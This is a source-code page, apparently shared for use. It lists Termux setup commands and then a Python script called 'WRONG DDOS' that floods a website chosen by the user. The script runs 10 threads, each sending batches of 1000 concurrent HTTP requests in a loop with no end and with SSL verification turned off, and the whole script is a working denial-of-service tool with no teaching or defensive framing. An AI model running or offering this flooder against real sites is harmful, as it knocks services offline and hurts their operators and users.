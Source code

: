pkg update && pkg upgrade
pkg install python
pip install requests
pip install requests
pip install aiohttp
pip install asyncio
pip install aiohttp
pkg install pip
pkg install python
pip install asyncio
pip install aiohttp




import aiohttp
import asyncio
import threading
import time

# Settings
REQUESTS_PER_BATCH = 1000
INTERVAL_BETWEEN_REQUESTS = 0.1
ACTIVE_DURATION = 60  # seconds
PAUSE_DURATION = 1    # seconds

print("WELCOME TO WRONG DDOS")

async def flood(session, url):
    try:
        async with session.get(url) as response:
            await response.read()
    except:
        pass

async def run_batch(url):
    async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(ssl=False)) as session:
        tasks = [flood(session, url) for _ in range(REQUESTS_PER_BATCH)]
        await asyncio.gather(*tasks)

def attack_loop(target):
    while True:
        start_time = time.time()
        while time.time() - start_time < ACTIVE_DURATION:
            asyncio.run(run_batch(target))
            print(f"DDOS Attacking {target}...")
            time.sleep(INTERVAL_BETWEEN_REQUESTS)
        print("Pausing for 1 second...")
        time.sleep(PAUSE_DURATION)

if __name__ == "__main__":
    target = input("Input target website (include http/https): ")
    for _ in range(10):  # Spawn multiple attack threads
        threading.Thread(target=attack_loop, args=(target,), daemon=True).start()
    while True:
        time.sleep(2)
